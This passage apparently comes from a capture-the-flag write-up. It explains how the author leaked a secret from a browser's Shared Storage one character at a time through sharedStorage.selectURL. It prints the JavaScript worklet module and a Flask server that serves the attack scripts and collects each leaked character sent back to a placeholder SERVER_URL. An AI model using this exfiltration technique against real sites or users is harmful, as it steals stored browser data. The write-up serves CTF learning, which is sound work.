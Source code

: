 ```javascript
    }, 1000);
};
```
I had to set the `location.href` as `sharedStorage.selectURL` was kinda broken on second called.
The idea was simple, I leaked each character of secret via the URL selection, and if the character was correct, it called back to my SERVER_URL with the character.
I hosted the `module.js` as follow:
```javascript
class Exploit {
    async run(urls, data) {
        const secret = await sharedStorage.get("message");
        if (!secret) {
            return 0;
        }
        const charCode = secret[data.index];
        if (!charCode) {
            return 0;
        }
        const alphabet = data.alphabet;
        const index = alphabet.indexOf(charCode);
        console.log("index: ", index, "urls length: ", urls.length);
        return (index + 1) % urls.length;
    }
}
register("exploit", Exploit);
```
and hosted the server with:
```python
from flask import Flask, request, Response
from flask_cors import CORS
import sys

app = Flask(__name__)
CORS(app) # I had to set the CORS, otherwise the browser would not run the JavaScript code

secret_data = ['']*100 # I first forgot how long the secret be :)

server_url = sys.argv[1] if len(sys.argv) > 1 else 'http://localhost:5000'

@app.route('/solve.js')
def solve_js():
    with open('solve.js', 'r') as file:
        js_code = file.read()
    js_code = js_code.replace('SERVER_URL', server_url)
    return Response(js_code, mimetype='application/javascript')

@app.route('/module.js')
def module_js():
    with open('module.js', 'r') as file:
        js_code = file.read()
    return Response(js_code, mimetype='application/javascript')

@app.route('/secret')
def secret():
    if (request.args.get('secret', None) is None or
            request.args.get('index', None) is None):
        return "Missing parameters", 400
    secret_character = request.args.get('secret')    
    index = int(request.args.get('index'))
    print(f"Received secret character: {secret_character} at index {index}", flush=True)
    if 0 <= index < len(secret_data):
        secret_data[index] = secret_character
    else:
        print(f"Index {index} out of range", flush=True)
```